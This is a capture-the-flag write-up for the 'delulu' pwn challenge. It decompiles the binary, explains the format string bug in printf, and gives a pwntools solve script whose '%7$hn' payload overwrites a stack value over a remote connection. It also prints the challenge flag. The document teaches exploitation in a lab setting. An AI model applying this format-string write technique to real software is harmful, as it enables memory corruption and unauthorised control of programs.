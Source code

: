 solved by vulnx https://github.com/VulnX

chall files:

[pwn_delulu.zip](./pwn_delulu.zip)

# Analysis

On reversing with ghidra we get the following source:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f);
  printf("\n[!] Checking.. ");
  printf((char *)&local_38);
  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```c
void delulu(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("You managed to deceive the robot, here\'s your new identity: ");
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Clearly we will get the flag if we call `delulu()`. That can be done if `local_48 == 0x1337beef`, however `local_48` is explicitly defined as `0x1337babe`. So obviously we need to partial overwrite the lower two bytes.

# Vulnerability

We have format string vulnerability in this line of code `printf((char *)&local_38);` . Since `local_38` is our input, we basically control the format specifier part of `printf()`. This gives us arbitrary read/write.

So we can use this to overwrite the lower 2 bytes of `local_48` but it requires us to have a pointer to `local_48` on the stack. Luckily that's done for us:

```c
local_48 = 0x1337babe;
local_40 = &local_48;
```

# Exploit

According to [64-bit calling convention]([Linux x64 Calling Convention: Stack Frame - Red Team Notes](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)) in linux, the first 6 arguments to any function are passed via registers and the rest are passed via the stack. So the 7th arg (index 6) to printf is the first stack value and the 8th arg (index 7) is the second stack value.

If you attach a debugger and look at the stack before the call to printf, you will see that the stack somewhat looks like that:

```
+----------+
| local_48 | <-- RSP
|----------|
| local_40 |
|----------|
|    ...   |
```

Basically:

- 7th arg [ index 6 ] = local_48

- 8th arg [ index 7 ] = local_40 *(pointer to local_48)*

So we can write to `local_48` by using `local_40`

Here's the solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./delulu")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.218", 39766)

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendline('%{}d%7$hn'.format(0xbeef).encode())
    r.recvuntil(b'{')
    flag = r.recvuntil(b'}')[:-1].decode()
    print(f'FLAG: HTB{{{flag}}}')


if __name__ == "__main__":
    main()
```

```console
$ python solve.py
[*] '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/delulu/challenge/delulu'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[+] Opening connection to 83.136.250.218 on port 39766: Done
FLAG: HTB{m45t3r_0f_d3c3pt10n}
[*] Closed connection to 83.136.250.218 port 39766
```

# Flag

`HTB{m45t3r_0f_d3c3pt10n}`